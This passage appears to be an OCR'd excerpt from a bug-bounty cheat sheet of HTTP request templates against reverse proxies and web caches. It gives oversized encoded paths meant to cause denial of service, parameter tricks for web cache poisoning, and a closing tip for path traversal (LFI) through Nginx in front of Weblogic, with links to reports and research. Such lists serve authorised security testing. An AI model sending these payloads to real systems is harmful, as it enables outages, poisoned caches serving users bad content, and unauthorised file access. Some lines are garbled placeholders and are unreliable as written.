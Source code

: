 ```http
-----------------------------
Try To Inject ?%xx , %xx OR %xxx 20k xxx e.g. Endpoint-To-Proxy/%xx To
Do DOS Attack
GET /Endpoint-To-Proxy/%xxx 20k xxx HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0

- https://hackerone.com/reports/500686
----------------------------
Try To Add Parameter With Value e.g. ?parameter=cache OR If There Is Parameters
Try To Add Another e.g. lang=en&parameter=cache To Achieve Cache Poisoning
GET /Endpoint-To-Proxy?parameter=cache HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0

- https://www.youtube.com/watch?v=bDxYWGxuVqE
------------------------------------------------
Add Parameter With Large Value e.g. ?parameter=xxx 20K xxx
GET /Endpoint-To-Proxy?parameter=xxxx 20K xxxx HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0

- https://www.youtube.com/watch?v=bDxYWGxuVqE
----------
GET /Endpoint-To-Proxy?_parameter=cache HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0

- https://www.youtube.com/watch?v=bDxYWGxuVqE
;parameter=cache 
--------------------------------------
GET /Endpoint-To-Proxy HTTP/1.1
Host: company.com
User-Agent: Mozilla/5.0
Referer: https://previous.com/path
Origin: https://www.company.com
Connection: keep-alive

parameter=cache
_parameter=cache
```

* [https://www.youtube.com/watch?v=V8f6gqrCbZU](https://www.youtube.com/watch?v=V8f6gqrCbZU)
* [https://portswigger.net/research/bypassing-web-cache-poisoning-countermeasures](https://portswigger.net/research/bypassing-web-cache-poisoning-countermeasures)
* [https://twitter.com/musab1995/status/1321844052543840258](https://twitter.com/musab1995/status/1321844052543840258)&#x20;

### LFI

If There Is Nginx As Reverse Proxy AND Weblogic As Backend Try To Use /#/../ To Change Route Of Endpoints
